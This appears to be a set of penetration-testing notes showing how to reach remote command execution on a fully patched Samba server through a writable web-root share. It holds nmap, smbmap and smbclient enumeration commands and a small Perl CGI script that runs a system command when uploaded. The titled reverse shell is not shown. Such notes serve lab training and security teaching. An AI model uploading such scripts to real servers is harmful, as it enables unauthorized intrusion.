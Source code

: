 ### Writeable Samba Share to Remote Command Execution via Perl Reverse Shell
- what to do in a samba server is fully patched, but we have a writeable share available to us?

- in this scenario, server fully patched, and contains a share named 'www', which appears to be possibly configured to allow administrators to easily update an internal web application.

// get the samba version
```
nmap --script smb-os-discovery -p 445 <target ip>
```

// get the permission of the shares
```
smbmap -H <target ip>
```

### about our findings
1. Web roots often contain files specific to a web server configuration and can futhermore be used to obtain credentials to other service , .e.g. MySQL
2. Being able to write to a web root, is even better depending ob the web server configuration; For instance, is PHP installed? Are there any other web server-interpreted languages we can use to our advantage? Can we upload any files to this directory, and how will the web server handle our files? Can we exploit that to obtain remote command execution?


### Connect
```
smbclient \\\\<target ip>\\www -N
```

ls
// the presence of a ".pl" extension indicates that the server is likely configured to process Perl (CGI) programs.
// grab the file and analyse the code
get index.pl


- lets check if the port 80 is open

```
nmap -sT <target ip> --max-retries 1 -n --open
```

- lets point a browser at our target

```
open <target ip>/index.pl in a browser
```

> we have confirmed that the **www** share is configured on the Samba server, is most likely being used to server the index.pl script and is likely the actual web root For the web server.

- make sure we have WRITE permission to the "www" share
- lets create a file locally and send to the smb share

```
#!/usr/bin/perl
print "Content-type: text/html\n\n";
system("id");
```
